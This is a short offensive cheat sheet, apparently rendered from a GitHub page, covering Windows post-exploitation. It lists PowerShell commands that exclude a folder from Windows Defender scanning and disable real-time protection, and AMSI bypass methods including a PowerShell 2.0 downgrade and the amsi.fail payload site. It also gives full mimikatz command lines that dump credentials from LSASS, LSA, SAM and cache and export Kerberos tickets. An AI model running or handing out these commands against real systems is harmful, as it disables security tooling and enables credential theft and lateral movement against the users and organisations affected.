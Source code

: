 ## Disable Antivirus  
### With Admin privileges  
Add a folder to the list of paths for which Windows Defender scheduled and real-time scanning is disabled:  
`PS C:\> Add-MpPreference –ExclusionPath “C:\Temp\User"`
  
Disable real-time protection:  
`PS C:\> Set-MpPreference –DisableRealtimeMonitoring $True`  

Some AMSI (Antimalware scan interface) bypass techniques:
`PS C:\> powershell.exe –version 2` (Downgrade to PowerShell 2.0 (.NET Framework 3.5 is required)  
Crash the AMSI process by running payloads available « amsi.fail » (https://amsi.fail).  
  
## Extract passwords 
### With Admin privileges 
  
`mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"`  
  
**Explanation :**  
`privilege::debug` & `token::elevate` Elevate Privileges to extract the credentials  
`sekurlsa::logonpasswords` Extracts creds from lsass (memory)  
`lsadump::lsa /inject` Extracts from lsass (service)  
`lsadump::sam` Extracts creds from SAM  

## Extract Kerberos tickets from memory  
### With Admin privileges 
   
`mimikatz.exe "privilege::debug" "token::elevate" "kerberos::list /export" "exit"`    
  
